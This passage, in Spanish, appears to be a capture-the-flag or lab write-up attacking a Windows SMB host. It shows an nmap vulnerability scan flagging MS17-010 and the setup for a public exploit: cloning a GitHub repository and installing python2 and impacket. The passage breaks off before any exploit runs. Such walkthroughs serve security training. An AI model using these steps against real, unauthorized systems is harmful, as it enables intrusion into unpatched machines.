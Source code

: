 Iniciamos con el reconocimiento del servicio `smb` donde inicialmente ejecutamos todos los scripts potencialmente vulnerables soportados por nmap, en búsqueda de posibles CVEs vulnerables en la máquina.

```bash
  nmap -p445 10.10.10.40 --script "smb-vuln*"
  PORT    STATE SERVICE
  445/tcp open  microsoft-ds

  Host script results:
  |_smb-vuln-ms10-054: false
  |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
  | smb-vuln-ms17-010: 
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |       servers (ms17-010).
  |           
  |     Disclosure date: 2017-03-14
  |     References:
  |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
  |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
  |_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

¡Encontramos un CVE que presenta vulnerabilidades en la máquina! `ms17-010`.

## EXPLOTACION POR MS17-010                                                                            
Vamos a realizar la explotación de nuestro primer CVE, para este caso haremos uso del script de github de [helviojunior](https://github.com/helviojunior/MS17-010) _para esta explotación es necesario tener instalado python2_.

```bash
  git clone https://github.com/helviojunior/MS17-010
  cd MS17-010/
```

Creamos un ambiente virtual de python2 para poder ejecutar el script sin presentar errores por librerías sin soporte.

```bash
  virtualenv -p python2 ms17-010
  source ms17-010/bin/activate
```

Ahora que nos encontramos en el ambiente virtual, procedemos a descargar la librería impacket requerida para ejecutar el exploit.

```bash
  pip install impacket
```
